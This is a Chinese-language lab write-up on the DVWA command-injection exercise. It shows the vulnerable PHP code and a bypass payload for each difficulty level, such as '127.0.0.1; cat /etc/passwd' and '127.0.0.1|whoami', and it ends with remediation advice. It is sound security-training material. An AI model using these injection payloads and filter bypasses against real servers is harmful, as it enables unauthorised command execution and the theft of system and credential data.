


# Command Injection

页面让你输一个 IP，服务器拿它去 ping。输入被原样粘在命令后面，只要塞一个命令分隔符，后面写什么就执行什么。

## 漏洞在哪

```php
$target = $_REQUEST['ip'];
$cmd = shell_exec('ping -c 4 ' . $target);
```

问题在那个点号。命令字符串由用户输入拼成，shell 会把 `;`、`|`、`&&` 都当成命令边界。

## 等级对照

| 等级 | 过滤 | 本机结果 |
|---|---|---|
| Low | 无 | `;` 直接执行 `whoami`、`pwd` |
| Medium | 删 `&&` 和 `;` | 单个 `&` 与 `\|` 绕过 |
| High | 删 `&`、`;`、`\| `、`-`、`$`、括号、反引号 | 无空格管道 `\|whoami` 绕过 |
| Impossible | 四段数字校验 + `escapeshellarg` | 打不进去 |

## 连接符

| 符号 | 行为 |
|---|---|
| `;` | 顺序执行，前一条成败都继续 |
| `&&` | 前一条成功才执行 |
| `\|\|` | 前一条失败才执行 |
| `\|` | 管道，前一条输出给后一条 |
| `&` | 放后台，照样执行 |
| `` `cmd` `` | 命令替换 |
| `$(cmd)` | 命令替换，现代写法 |

URL 里要编码：`&` 是 `%26`，`|` 是 `%7c`，`;` 是 `%3b`，空格 `%20`，换行 `%0a`。

## Low

| 项 | 内容 |
|---|---|
| 正常 | 输 `127.0.0.1` 返回 ping 结果 |
| 注入 | `127.0.0.1; whoami` 返回 `www-data` |
| 实际执行 | `ping -c 4 127.0.0.1; whoami` |
| 危害 | 任意命令，权限同 Web 服务 |

```
127.0.0.1; whoami
127.0.0.1; pwd
127.0.0.1; cat /etc/passwd
```





有回显最容易。真实环境里下一步通常是看 `env` 找数据库密码、看能否提权。

## Medium

| 项 | 内容 |
|---|---|
| 过滤 | `str_replace` 删 `&&` 和 `;` |
| 绕过 | 单个 `&`、管道 `\|`、`\|\|` |
| 注意 | `;` 被删后两条命令会粘成一个，反而失败，要换符号 |

```php
$substitutions = array('&&' => '', ';' => '');
```

```
127.0.0.1 & whoami
127.0.0.1 | whoami
127.0.0.1 || whoami
127.0.0.1%26whoami
```

`&` 最好过，因为规则只匹配两个 `&`，单个不匹配。

## High

| 项 | 内容 |
|---|---|
| 过滤 | 加了 `&`、`;`、`\| `、`-`、`$`、`(`、`)`、`` ` ``、`\|\|` |
| 缝隙 | `'\| '` 匹配的是"管道符加空格"，不是管道符 |
| 绕过 | 去掉空格，`127.0.0.1\|whoami` |
| 副作用 | `-` 被过滤，`ping -c 4` 的参数被削掉，ping 本身行为异常 |

```php
$substitutions = array('&'=>'', ';'=>'', '| '=>'', '-'=>'', '$'=>'',
                       '('=>'', ')'=>'', '`'=>'', '||'=>'');
```

```
127.0.0.1|whoami
```

空格是这一关唯一的门槛。改一个字符就过，说明过滤表是按"我看到过的 payload"写的，不是按语法写的。

## Impossible

```php
$octet = explode(".", $target);
if (is_numeric($octet[0]) && is_numeric($octet[1]) &&
    is_numeric($octet[2]) && is_numeric($octet[3]) &&
    sizeof($octet) == 4) {
    $target = escapeshellarg($target);
    ...
}
```

三层：按点切成四段、段数必须为四、每段纯数字，最后 `escapeshellarg` 包成单参数。

第二层是决定性的。`127.0.0.1;whoami` 切开后最后一段是 `1;whoami`，`is_numeric` 直接 false。这是白名单思路：只接受长得像 IP 的东西。

## 有回显与无回显

DVWA 是有回显的。真实环境更多没有回显，靠时间判断：

```
127.0.0.1; sleep 5
```

页面停 5 秒说明命令执行。再往后是往自己机器打外带请求，把结果带出来，本靶场没做。

## 容易记错的地方

- `&&` 在 URL 里不编码会被服务端当参数分隔，回显一直不对。
- High 卡住时先看源码里带不带空格，`'| '` 和 `'|'` 是两个世界。
- `-` 被过滤会让 ping 自身异常，别误判成 payload 写错。
- `;` 在某些实现里会被删成空，两条命令粘一起反而语法错，换符号比硬试快。

## 怎么修

| 措施 | 作用 |
|---|---|
| 不调系统命令 | 查连通性用语言自带网络库，最彻底 |
| 白名单校验 | `filter_var($ip, FILTER_VALIDATE_IP)`，只放合法 IP |
| `escapeshellarg()` | 参数转义，与校验配合使用 |
| 数组形式传参 | `proc_open` 不经过 shell 解析 |
| Web 进程降权 | 不用 root 跑 PHP-FPM |
